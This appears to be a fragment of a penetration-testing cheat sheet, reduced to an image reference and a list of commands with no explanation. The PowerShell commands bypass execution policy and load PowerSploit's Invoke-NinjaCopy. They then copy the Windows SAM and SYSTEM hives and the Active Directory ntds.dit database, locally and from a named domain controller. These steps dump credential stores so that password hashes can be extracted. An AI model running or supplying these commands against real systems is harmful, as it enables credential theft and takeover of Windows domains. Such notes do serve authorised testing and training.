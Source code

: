 	#http://192.168.0.101/powersploit/Exfiltration/Invoke-NinjaCopy.ps1
	>powershell -exec bypass
	>Import-Module .\invoke-ninjacopy.ps1
	>Invoke-NinjaCopy -Path C:\Windows\System32\config\SAM -LocalDestination .\sam.hive
	>Invoke-NinjaCopy –Path C:\Windows\System32\config\SYSTEM -LocalDestination .\system.hive
	>Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -LocalDestination "C:\Windows\Temp\1.dit"
	>Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -ComputerName "dc.zone.com" -LocalDestination "C:\Windows\Temp\1.dit"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/316.png)